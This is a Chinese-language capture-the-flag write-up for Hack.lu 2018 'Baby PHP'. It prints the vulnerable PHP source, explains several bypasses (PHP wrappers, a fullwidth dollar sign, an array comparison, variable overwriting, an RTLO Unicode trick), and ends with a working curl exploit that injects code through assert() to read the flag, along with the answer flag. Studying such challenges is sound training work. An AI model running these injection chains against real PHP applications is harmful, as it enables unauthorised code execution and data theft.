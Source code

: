 ```yaml
---
title: Hack.lu CTF 2018 Baby PHP
date: 2018-10-22 21:44:52
category: writeup
---
```


# Baby PHP

环境：https://arcade.fluxfingers.net:1819/ 

{% fold 展开源码 %}
```php
<?php

require_once('flag.php');
error_reporting(0);


if(!isset($_GET['msg'])){
    highlight_file(__FILE__);
    die();
}

@$msg = $_GET['msg'];
if(@file_get_contents($msg)!=="Hello Challenge!"){
    die('Wow so rude!!!!1');
}

echo "Hello Hacker! Have a look around.\n";

@$k1=$_GET['key1'];
@$k2=$_GET['key2'];

$cc = 1337;$bb = 42;

if(intval($k1) !== $cc || $k1 === $cc){
    die("lol no\n");
}

if(strlen($k2) == $bb){
    if(preg_match('/^\d+＄/', $k2) && !is_numeric($k2)){
        if($k2 == $cc){ 
            @$cc = $_GET['cc'];
        }
    }
}

list($k1,$k2) = [$k2, $k1];

if(substr($cc, $bb) === sha1($cc)){
    foreach ($_GET as $lel => $hack){
        $$lel = $hack;
    }
}

$‮b = "2";$a="‮b";//;1=b

if($$a !== $k1){
    die("lel no\n");
}

// plz die now
assert_options(ASSERT_BAIL, 1);
assert("$bb == $cc");

echo "Good Job ;)";
// TODO
// echo $flag;  
```

{% endfold %}

用 `php -S 127.0.0.1:8080` 起一个本地服务用于调试。

13~15行可通过PHP wrapper 绕过。

```bash
curl "https://arcade.fluxfingers.net:1819?msg=php://input" -d "Hello Challenge!"
or
curl "https://arcade.fluxfingers.net:1819?msg=data://text/plain,Hello%20Challenge!"
```

24~26行传入key1=1337即可，$k1类型为string。

29行的美元符是个宽字节字符，并不是ASCII为36的字符。

```javascript
>encodeURI("＄")
<"%EF%BC%84"
```

```php
php > $e=str_repeat("0",42-3-4)."1337 ";
php > echo strlen($e);
42
php > echo $e;
000000000000000000000000000000000001337＄
```

38行可以通过传入数组绕过。39行有变量覆盖。

44行是个障眼法，在第一个美元符后有个Unicode 字符(`U+202e`)，用以左右反转，详见 [rtlo-trick](https://rawsec.ml/en/2-less-known-tricks-spoofing-extensions/#rtlo-trick)。十六进制看起来实际上是这样：

```bash
000002f0: 24e2 80ae 6220 3d20 2232 223b 2461 3d22  $...b = "2";$a="
00000300: e280 ae62 223b 2f2f 3b31 3d62 0d0a 0d0a  ...b";//;1=b....
```

就是说，第44行是 `$\u{202E}b = "2";$a="\u{202E}b";//;1=b` ，但经过Unicode字符作用后显示出来的是`$b=1;//;"b"=a$;"2" = b` 。推荐一个辅助工具：https://r12a.github.io/app-conversion/ 。

则$$a的值为2，传入k1=2即可。

51行设置在断言失败时中止执行。

52行可以执行PHP代码。

```bash
λ  curl -sg "https://arcade.fluxfingers.net:1819/?msg=data://text/plain,Hello%20Challenge!&key1=1337&key2=000000000000000000000000000000000001337%EF%BC%84&cc[]=&k1=2&bb=highlight_file(%22flag.php%22);//" | grep -o 'flag{.*}'
flag{7c217708c5293a3264bb136ef1fadd6e}
```

